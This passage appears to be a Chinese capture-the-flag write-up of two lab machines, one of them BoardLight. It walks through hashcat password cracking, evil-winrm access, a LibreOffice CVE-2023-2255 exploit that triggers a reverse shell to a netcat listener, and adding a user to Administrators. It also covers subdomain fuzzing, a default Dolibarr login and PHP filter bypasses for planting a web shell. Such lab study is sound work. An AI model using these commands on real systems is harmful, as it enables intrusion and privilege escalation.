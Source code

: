 放到 `1.txt`，用 hashcat 爆

```bash
hashcat -a 0 -o passwd.txt 1.txt /usr/share/wordlists/rockyou.txt
```

`-a 0` 意思是字典模式，`-o passwd.txt` 是输出文件，`1.txt` 是输入文件，`/usr/share/wordlists/rockyou.txt` 是字典文件。
爆出来密码是 `m4y4ngs4ri`。
然后用红队神器 evil-winrm 连上，拿到 Windows 的 shell，读 `user.txt` 拿到第一个 flag。

```bash
evil-winrm -i 10.10.11.14 -u maya -p m4y4ngs4ri
```

很奇怪这里用 hash 登录不行，会报错 `Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError`。

现在就要开始提权了。

Program Files 里有个 `LibreOffice`，查看 `readme_en-US.txt` 可以知道版本是 7.4。
搜出是有 CVE-2023-2255 的，用 [PoC](https://github.com/elweth-sec/CVE-2023-2255) 打
把反弹 shell 的  `shell.py` 传到 `C:\Users\maya\Documents\`，然后本地生成 `exploit.odt`，再在 Windows 上 curl 下来。

```bash
python3 CVE-2023-2255.py --cmd "python C:\Users\maya\Documents\shell.py" --output 'exploit.odt'
```

在本地挂着 `nc -lvnp <port>`，一会就有 shell 过来了。

弹到 localadmin 的 shell 后，可以直接读桌面的 `root.txt` 拿到 flag，也可以通过以下命令把 maya 提到管理员组：

```bash
net localgroup Administradores maya /add
```

总的来说，这 Windows 的渗透是真迷糊，一点不会。而且不知道为啥 Evil-WinRM 连上后命令卡得要死

## BoardLight

扫出来两个端口，一个是 80，一个是 22。
一个静态网页，无交互，源码里面有一个 Board.htb，加到 host 里面访问，还是这个页面。
开始扫子域名

```bash
wfuzz -c -w  /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://board.htb" -H "Host:FUZZ.board.htb" --hw 1053
```

`--hw 1053` 是过滤掉 1053 字节的响应。
扫到一个 `crm.board.htb`。
加入 `/etc/hosts` 里，访问到是一个 Dolibarr 的登录页面，随手敲个 admin admin 竟然登上去了，乐。
新建一个 website，再在里面新建一个 Page，编辑 HTML 源，写 PHP，保存会报 `You add dynamic PHP code that contains the PHP instruction 'system' that is forbidden by default as dynamic content (see hidden options WEBSITE_PHP_ALLOW_xxx to increase list of allowed commands).
`

大写 PHP 绕过，有时也可以直接短标签 `<?`，或者 `<?=system('ls')?>`，这句等效于 `<?php echo system('ls')?>`。
在 [Reverse Shell Generator](https://www.revshells.com/) 生成一个 PHP 反弹 shell，然后写进去
记得勾上 `Show dynamic content`
